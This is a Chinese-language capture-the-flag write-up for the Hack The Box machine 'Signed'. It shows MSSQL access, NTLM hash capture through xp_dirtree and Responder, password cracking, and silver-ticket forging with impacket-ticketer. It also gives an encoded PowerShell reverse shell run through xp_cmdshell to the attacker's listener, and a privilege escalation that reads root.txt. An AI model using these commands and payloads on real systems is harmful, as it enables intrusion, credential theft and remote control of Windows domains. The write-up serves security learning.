# HTB Season 9 - Signed

## 信息收集

### 端口扫描

```bash
nmap -sS -A -O -T4 -p- 10.10.11.90
```



结果为只有1433端口开放，且为Microsoft SQL Server
并且是域环境, 域名为signed.htb
靶场提供的信息为：

```
scott / Sm230#C5NatH
```

## MsSQL

### Guest

我们可以利用该凭据访问mssql服务

```bash
impacket-mssqlclient 'signed.htb/scott:Sm230#C5NatH@10.10.11.90'
```



进入mssql后发现是guest用户,权限很低,无法执行xp_cmdshell命令,我们查看一下可以使用system命令的用户

### xp_dirtree

在xp_dirtree存储过程获取运行mssql服务的用户NTLM的hash值,当MSSQL去访问我们的SMB服务时,会进行NTLM认证然后就会把它自己的凭证发给我们,我们通过破解它的凭证在返回登录MSSQL

```bash
responder -I tun0 -v
```

```sql
xp_dirtree \\10.10.16.2\test1234
```



我们成功截获到了NTLM hash值,我们可以使用john来破解它

```bash
john ntlm.hash --wordlist=/usr/share/wordlists/rockyou.txt
```



mssqlsvc:purPLE9795!@

### mssqlsvc

我们可以利用该凭据登录mssql服务

```bash
impacket-mssqlclient 'signed.htb/mssqlsvc:purPLE9795!@@10.10.11.90' -windows-auth
```



但是我们还是无法执行xp_cmdshell命令,我们查看一下可以使用system命令的用户

```sql
SELECT r.name AS role, m.name AS member FROM sys.server_principals r JOIN sys.server_role_members rm ON r.principal_id=rm.role_principal_id JOIN sys.server_principals m ON rm.member_principal_id=m.principal_id WHERE r.name='sysadmin';
```



发现该SIGNED域下IT具有sysadmin权限,我们可以尝试伪造IT的TGS,然后登录mssql服务

### 伪造IT的TGS



伪造TGS我们还需要服务账户密码的NTLM hash值以及域的SID

1. 查询域的SID

```sql
select SUSER_SID('SIGNED\IT')
```



将得到的sid用脚本转换为字符串

```python
import struct

def binary_sid_to_string(hex_sid):
    # 直接处理你的十六进制SID，无需额外配置
    binary_sid = bytes.fromhex(hex_sid)
    version = binary_sid[0]
    sub_auth_count = binary_sid[1]
    authority = struct.unpack(">Q", b"\x00\x00" + binary_sid[2:8])[0]
    sid_parts = [f"S-{version}", str(authority)]
    offset = 8
    for _ in range(sub_auth_count):
        sub_auth = struct.unpack("<I", binary_sid[offset:offset+4])[0]
        sid_parts.append(str(sub_auth))
        offset += 4
    return "-".join(sid_parts)

# 你的十六进制SID（已直接填入）
your_hex_sid = "0105000000000005150000005b7bb0f398aa2245ad4a1ca451040000"
try:
    result = binary_sid_to_string(your_hex_sid)
    print(f"转换成功！标准SID：{result}")
except Exception as e:
    print(f"错误：{e}")
```



成功得到域的SID为：
S-1-5-21-4088429403-1159899800-2753317549

2. 查询服务账户密码的NTLM hash值

在cmd5上进行转换:



NTLM hash:ef699384c3285c54128a3ee1ddb1a0cc

利用脚本进行伪造TGS:

```bash
impacket-ticketer -nthash ef699384c3285c54128a3ee1ddb1a0cc -domain-sid S-1-5-21-4088429403-1159899800-2753317549 -domain signed.htb -spn mssqlsvc/DC01.signed.htb:1433 -groups 1105 IT

export KRB5CCNAME='/root/Desktop/HTB/S9/signed/IT.ccache' 

impacket-mssqlclient -k -debug DC01.signed.htb
```



成功登录,并且我们切换到具有dbo权限

执行xp_cmdshell命令,反弹shell到kali

```bash
nc -lvvp 4444
```

```sql
xp_cmdshell "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA2AC4AMwAwACIALAA0ADQANAA0ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA=="
```



切换到桌面拿到用户flag



### 提权

尝试直接查看管理员家目录发现没有权限



说明我们伪造的票据权限不够,我们需要重新伪造票据

查看mssqlsvc的编号

```powershell
Get-WmiObject win32_useraccount
```



得到mssqlsvc的编号为1103

重新伪造票据,添加gid为1105,500,512,519以及uid为1103的票据

```bash
impacket-ticketer -nthash ef699384c3285c54128a3ee1ddb1a0cc -domain-sid S-1-5-21-4088429403-1159899800-2753317549 -domain signed.htb -spn mssqlsvc/DC01.signed.htb:1433 -groups 1105,500,512,519 -user-id 1103 mssqlsvc
```

登录后,在mssql中使用openrowset函数读取管理员家目录下的root.txt文件

```sql
SELECT * FROM OPENROWSET(BULK N'C:\Users\Administrator\desktop\root.txt', SINGLE_CLOB) AS Contents
```




